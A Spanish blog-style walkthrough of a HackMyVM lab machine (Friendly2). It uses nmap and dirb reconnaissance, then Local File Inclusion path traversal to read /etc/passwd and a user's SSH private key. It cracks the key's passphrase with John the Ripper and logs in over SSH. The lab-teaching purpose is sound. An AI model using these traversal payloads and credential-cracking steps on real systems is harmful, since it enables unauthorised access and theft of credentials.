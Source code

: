 
---
- TAG: #Explotación #Vulnerabilidades #Inclusión #Archivos #Locales #LFI
----
Claro, aquí tienes el contenido con los títulos y subtítulos adecuados:

---

# Explotación de una Vulnerabilidad Local File Inclusion (LFI)

En el blog de hoy, vamos a aprender a realizar un **Local File Inclusion (LFI)** en una página web vulnerable. Hay muchas formas de realizar un **LFI**, pero esta vez lo aprenderemos de una manera sencilla y básica, adecuada para el nivel del examen.

Para ello, utilizaremos una máquina víctima de **HackMyVM**.

- Máquina: [Friendly2](https://hackmyvm.eu/machines/machine.php?vm=Friendly2)
- Máquina atacante: Linux

## Procedimiento

### 1. Preparación del Entorno

Una vez descargada la máquina vulnerable y exportada a nuestro VirtualBox, estamos listos para proceder.

1. **Arp-scan** para localizar la máquina víctima.
2. **Ping** para ver el tipo de TTL y entender a qué nos enfrentamos.
3. **Nmap** para encontrar vulnerabilidades y puertos abiertos:
   ```bash
   nmap -p- -sS -sC -sV --open --min-rate=5000 -n -Pn -vvv 1.2.3.4 -oN escaneo
   ```

Al finalizar el escaneo, encontramos dos puertos abiertos: `22` (SSH) y `80` (HTTP). Al acceder a la página web a través del navegador en el puerto 80, vemos una página web sencilla.

### 2. Exploración de la Página Web

1. **Revisar el código fuente** presionando `Ctrl + U`.
   No vemos nada interesante, así que continuamos.

2. **Fuzzing Web**:
   ```bash
   dirb http://1.2.3.4
   ```

Con este ataque rápido, encontramos dos directorios: `/assets` y `/tools`.

3. Al probar el primer directorio, encontramos un mensaje de **Información privada**. Revisamos el código fuente (`Ctrl + U`) y encontramos información sensible en un comentario:
   ```bash
   check_if_exist.php?doc=keyboard.html
   ```

Agregamos esta información al final de la URL:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=keyboard.html
   ```

Vemos una página sencilla con la imagen de un teclado. Ahora, realizaremos el ataque **Local File Inclusion (LFI)**.

### 3. Realización del Ataque Local File Inclusion (LFI)

Cuando vemos algo similar a `doc=keyboard.html` en una URL, siempre que esté llamando a un parámetro o archivo, es probable que sea vulnerable a **LFI**. Esta vulnerabilidad nos permite retroceder por los directorios hasta acceder a archivos importantes de la máquina víctima.

1. En la URL, reemplazamos `keyboard.html` con `../` para retroceder en los directorios:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../etc/passwd
   ```

Al apuntar a `../etc/passwd`, veremos todos los usuarios registrados en la máquina víctima Linux.

2. Buscamos el fichero **id_rsa** de un usuario existente dentro de la máquina:
   ```bash
   http://1.2.3.4/tools/check_if_exist.php?doc=../../home/gh0st/.ssh/id_rsa
   ```

Al acceder a esta ruta, vemos la **PRIVATE KEY**. Copiamos este archivo a nuestra máquina atacante para obtener acceso a la máquina víctima.

### 4. Uso del Archivo id_rsa para Acceder a la Máquina Víctima

1. Hacemos `Ctrl + U` en la página web con la clave.
2. Copiamos toda la clave.
3. En nuestra máquina Kali Linux, creamos un archivo con `nano` o `nvim`:
   ```bash
   nano id_rsa
   ```

4. Pegamos toda la clave, guardamos y salimos.
5. Le asignamos el permiso `600`:
   ```bash
   chmod 600 id_rsa
   ```

6. Ingresamos utilizando el archivo `id_rsa` con el usuario `gh0st`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

7. Nos pedirá el salvoconducto. Utilizamos **John The Ripper** para crackear el **id_rsa**:
   ```bash
   ssh2john id_rsa > hash
   john --wordlist=/usr/share/wordlist/rockyou.txt hash
   ```

8. Volvemos a ingresar con `ssh` y, esta vez, cuando nos pida el salvoconducto, ingresamos la credencial `celctic`:
   ```bash
   ssh -i id_rsa gh0st@1.2.3.4
   ```

Pegamos el salvoconducto encontrado y ya estaremos dentro.

### Resumen

1. Hemos explotado un **Local File Inclusion** para encontrar información valiosa de la víctima, específicamente el archivo `id_rsa`.
2. Hemos obtenido dicho archivo `id_rsa` y le hemos proporcionado el permiso `600`.
3. Lo hemos crackeado localmente con **John The Ripper** para obtener el salvoconducto.
4. Ingresamos como el usuario `gh0st` en la máquina víctima.

---

¡Saluditos desde Ecuador!